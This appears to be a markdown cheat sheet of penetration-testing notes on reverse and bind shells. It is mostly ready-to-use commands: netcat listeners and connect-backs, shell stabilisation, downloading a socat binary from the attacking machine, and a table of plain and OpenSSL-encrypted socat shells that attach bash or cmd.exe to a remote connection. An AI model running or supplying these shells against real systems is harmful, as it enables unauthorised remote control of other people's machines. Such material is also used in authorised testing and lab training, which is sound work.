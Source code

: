 # Reverse / Bind Shells

> Super useful site: https://www.revshells.com/

| Reverse Shells | Bind Shells |
| -- | -- |
| When the target is forced to execute code that connects back to your computer. | When the code executed on the target is used to start a listener attached to a shell directly on the target. |

# Tools

## Netcat

Starting a listener: `sudo nc -lvnp <PORT>`

> Tip: Choose a port less than 1024 and one that is likely to be open. Ports below 1024 require `sudo`.

One way of executing a shell is by simply connecting back via an outbound connection from the target machine: `nc <TARGET-IP> <CHOSEN-PORT>`

From there, we can stabilise our shell.

### Stabilisation

1. `python(2/3) -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm` - gives access to extra utility commands like `clear`
3. Ctrl+Z
3. `stty raw -echo; fg` - gives access to tab autocompletes, arrow keys, and Ctrl+C

When finished: `reset` to restore input visibility in your own terminal.

---

To simplify the above process, you can use `rlwrap`. 
Start a listener via: `rlwrap nc -lvnp <PORT>` and connect back.

---

For a reverse shell, use *socat*.
For a bind shell:

1. Use netcat to gain access to an unstable shell.
2. Obtain *socat static compiled binary* by runing `sudo python3 -m http.server 80` on the attacking machine, wget the binary using `wget <LOCAL-IP>/socat -O <DIR_WITH_BINARY>`.
3. Reconnect using socat.


### Socat

| Encrypted (Y/N) | Shell Type (R/B) | Command Type |
| -- | -- | -- |
| N | R | Listener (local) - `socat TCP-L:<PORT> FILE:``tty``,raw,echo=0` |
| N | R | Connector (remote) - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` |
| N | B | Connector (local) - `socat TCP:<TARGET-IP>:<TARGET-PORT> -` |
| N | B | Listener (remote) - `socat TCP-L:<PORT> FILE:``tty``,raw,echo=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` or if *Windows* victim, then `socat -d -d TCP-L:<PORT> EXEC:'cmd.exe',pipes` |
| Y | R | Listener (local) - `socat OPENSSL-LISTEN:<PORT>,cert=<certname>.pem,verify=0 file=``tty``,raw,echo=0` |
| Y | R | Connector (remote) - `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC="bash -li",pty,stderr,sigint,setsid,sane` |
| Y | B | Connector (local) - `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` |
| Y | B | Listener (remote) - `socat OPENSSL-LISTEN:<PORT>,cert=<certname>.pem,verify=0 FILE=``tty``,raw,echo=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` |


For encrypted shells, you must create a self-signed certificate using: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` then combine them using: `cat shell.key shell.crt > shell.pem`.

